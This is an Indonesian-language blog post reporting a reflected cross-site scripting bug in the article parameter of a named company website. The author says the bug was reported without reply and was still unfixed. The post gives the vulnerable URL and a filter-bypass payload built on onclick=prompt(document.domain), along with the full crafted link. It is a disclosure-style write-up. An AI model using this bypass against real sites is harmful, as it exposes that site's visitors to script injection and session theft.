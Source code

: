 ```yaml
---
title: Reflected XSS at evercoss.com
author: mrhidden
date: '2020-02-25T02:38:00.000-08:00'
categories: [Blogging, Exploit]
tags: [xss]
---
```


![](https://1.bp.blogspot.com/-F3_STrY3qfY/XlT1s1_IliI/AAAAAAAAAvY/JpDsXUMtcwg_EpCPEoeSTubydd7Dm8D_wCLcBGAsYHQ/s1600/Screenshot_13.png)

  
Sebenarnya bug ini sudah lama saya temukan, dan juga sudah pernah saya report cuma ya gak ada tanggapan.  
  
Bug ini saya temukan sekitar bulan 6 tahun lalu kalau gak salah, tapi saya coba lagi dan ternyata bug ini belum juga di perbaiki.  
  
Ok sebelum lanjut membaca mohon baca dulu [DISCLAIMER](/disclaimer), jika sudah baca berarti anda setuju dengan apa yang saya tulis.  
  
Bug ini terletak pada url http://evercoss.com/article?ArticleName= , nah disini saya mencoba memasukkan payload seperti biasa `<script>alert(1);</script>` tapi kefilter menjadi `\[removed\]alert(1);\[removed\]`
  
Kemudian saya coba bypass menggunakan payload seperti ini  
  
```
" onclick=prompt(document.domain)//<button ‘ onclick=prompt(document.domain)//> \*/ prompt(document.domain)//
```
  
hingga menjadi menjadi seperti ini  
```
http://evercoss.com/article?ArticleName=**" onclick=prompt(document.domain)//<button ‘ onclick=prompt(document.domain)//> \*/ prompt(document.domain)//**  
```
Setelah saya memasukkan payload seperti ini timbul lah pop up xss tersebut  
  
Jelasnya bisa lihat video dibawah

  <center>
  <iframe src="https://www.blogger.com/video.g?token=AD6v5dzebQLtKWhHGHHT5-cpfpNqsvENuKltH7jOLCLvR58k9EJGK_JU9jDXnpY4SS0Jqk3J-r_aA_wksvygpCiBDjqSBC-XjRG0ZFddj0S7bJAU1e1CYqrAVnAQlUxCsdrPIIle8JQ" width="350" height="250" mozallowfullscreen="mozallowfullscreen"></iframe>
  </center>